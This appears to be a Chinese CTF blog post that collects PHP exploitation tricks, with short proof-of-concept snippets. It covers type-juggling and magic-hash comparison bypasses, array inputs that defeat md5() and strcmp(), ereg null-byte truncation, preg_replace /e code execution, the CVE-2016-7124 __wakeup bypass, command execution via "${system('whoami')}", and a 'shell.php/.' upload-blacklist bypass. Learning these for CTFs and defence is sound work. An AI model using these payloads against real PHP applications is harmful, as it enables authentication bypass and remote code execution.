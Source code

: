 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。<br>
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。


## 弱类型 

```php
<?php

//输出 boolean true

$a = 0;
$b = '0asdf';
var_dump($a == $b);


//输出 boolean true

$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

## 科学记数法


```php
<?php

//输出 boolean true

$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>
```

## 函数
- md5()

    ```php
    <?php
    //http://xxxx?a[]=1&b[]=2

    //md5对数组类型hash的时候会返回false

    //输出 boolean true

    $a = md5($_GET['a']);
    $b = md5($_GET['b']);
    var_dump($a == $b);

    //把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符

    //输出 'or'6�]��!r,��b

    echo md5('ffifdyop',true);

    ?>
    ```
- ereg()/eregi()截断

    ```php
    <?php

    //http://xxxx?a=abc;

    //输出 boolean false

    //http://xxxx?a=abc%00;

    //输出 boolean true

    var_dump(eregi('^[a-z]+$',$_GET[a]));

    ?>
    ```

- preg_replace()代码执行<br>

    ```php
    <?php

    //pattern里使用参数e导致代码执行

    preg_replace('/test/e','phpinfo()','test');

    ?>
    ```

- 对parse_url()参数检测的绕过<br>

    ![](/img/in-post/post-php-trick/parse_url1.png)
    *<center>两个斜杠</center>*

    ![](/img/in-post/post-php-trick/parse_url2.png)
    *<center>三个斜杠</center>*

    `注：在path前面的"/"到达一定数量之后，parse_url会忽略参数`

- mt_srand()伪随机数

    用`php_mt_seed`即可算出种子<br>


- is_numeric()十六进制绕过

    ```php
    <?php

    var_dump(is_numeric('0xabcd'));
    //输出 boolean true

    ?>
    ```

- strcmp()绕过

    strcmp输入数组作为参数会返回`NULL`
    ```php
    <?php

    //http://xxxx?a[]=www

    $a=$_GET['a'];
    echo strcmp('aaaa',$a).'<br>';

    //输出 无（即NULL）

    if(strcmp('aaaa',$a)){
        echo 'false!';
    }else{
        echo 'success!';
    }
    //输出 success

    ?>
    ```

## 反序列化
- _wakeup()魔术方法的绕过

    利用的是`CVE-2016-7124`

    ```php
    <?php

    class test{

        public $s = 'secret';

        function __construct(){
            
        }

        function __wakeup(){
            echo 'wakeup'.'<br>';
            $this->s = '';
        }

        function __destruct(){
            echo 'destruct '.$this->s.'<br>';
            
        }
    }

    $a = new test();
    $serial = serialize($a).'<br>'; 

    //O:4:"test":1:{s:1:"s";s:6:"secret";}


    unserialize($serial);
    //输出：

    //wakeup

    //destruct 

    //可以看到反序列化先运行了__wakeup()函数

    //但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup

    //即 O:4:"test":2:{s:1:"s";s:6:"secret";}


    unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
    //输出： 

    //destruct secret

    //没有运行wakeup


    ?>

    ```

## 代码执行

- 双引号里的代码执行

    ```php
    <?php

    $a = "${system('whoami')}";

    ?>
    ```

## 文件上传

- shell.php/.

    上传的文件名带/.的话，使用file_put_content的话，会自动把/.删掉，从而绕过黑名单<br>